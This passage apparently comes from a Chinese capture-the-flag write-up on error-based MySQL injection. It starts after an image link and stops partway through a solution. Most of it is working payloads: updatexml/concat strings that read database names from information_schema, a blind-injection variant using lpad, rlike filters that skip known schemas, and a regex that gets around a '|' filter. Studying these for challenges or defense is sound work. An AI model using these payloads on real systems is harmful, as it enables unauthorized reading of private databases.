 这样可以获取到当前使用的数据库，但是问题是，我们需要所有的数据库名，如果使用`information_schema`库，传入：

```http
name=tips'or(updatexml(1,concat('~',(select(group_concat(distinct(table_schema)))from(information_schema.columns))),1))%23
```

此时可以得到回显为：

```http
XPATH syntax error: '~homework,information_schema,my
```

可以看到此时产生了回显截断，没有办法完整地读取出所有的数据库名，此时该怎么办呢？

#### 2.1 substr

一般来说此时我们容易想到的方案是substr，即将字符串截取分段带出，但是这里substr被ban了。

#### 2.2 转换为盲注

利用MySQL的lpad、left等函数可以简单地将此题转换为盲注，不妨考虑构造name为：

```http
name=1'or(lpad((select(group_concat(distinct(table_schema)))from(information_schema.columns)),1,1)>0x20)%23
```

这样子就将有回显注入转换为了盲注.

#### 2.3 rlike去除已知

上面虽然可以转换为盲注，但是有一个很严重的问题，盲注耗时长，且大量的请求容易被封禁，那么如何通过常规回显注入来获取所有的数据库名呢？

利用MySQL的`rlike`函数，我们来骚操作一下，去除已知的数据库，逐个数据库名获取，这样我们就能拿到所有的数据库名。

不妨考虑构造name为：

```http
name=1'or(updatexml(1,concat('~',(select(group_concat(distinct(table_schema)))from(information_schema.columns)where(not(table_schema)rlike('homework')))),1))%23
```

这样我们就将数据库名为homework的数据库去除了，可以得到回显：

```http
XPATH syntax error: '~information_schema,mysql,perfo
```

再次去除information_schema，构造name为：

```http
name=1'or(updatexml(1,concat('~',(select(group_concat(distinct(table_schema)))from(information_schema.columns)where(not(((table_schema)rlike('homework'))or((table_schema)rlike('information_schema')))))),1))%23
```

利用布尔表达式组合我们可以逐个去除已知数据库，但是这么做似乎有些复杂，有没有更简单的做法呢？

当然是有的，注意到题目过滤了符号`|`，但是对于`[]`以及`{}`为进行过滤，此时我们可以构造正则表达式如下，匹配`homework`、`information_schema`以及`mysql`：

```regex
[h,i,m]{1}[o,n,y]{1}[m,f,s]{1}[e,o,q]{1}[w,r,l]{1}[o,m]{0,1}[r,a]{0,1}[k,t]{0,1}[i]{0,1}[o]{0,1}[n]{0,1}[_]{0,1}[s]{0,1}[c]{0,1}[h]{0,1}[e]{0,1}[m]{0,1}[a]{0,1}
```
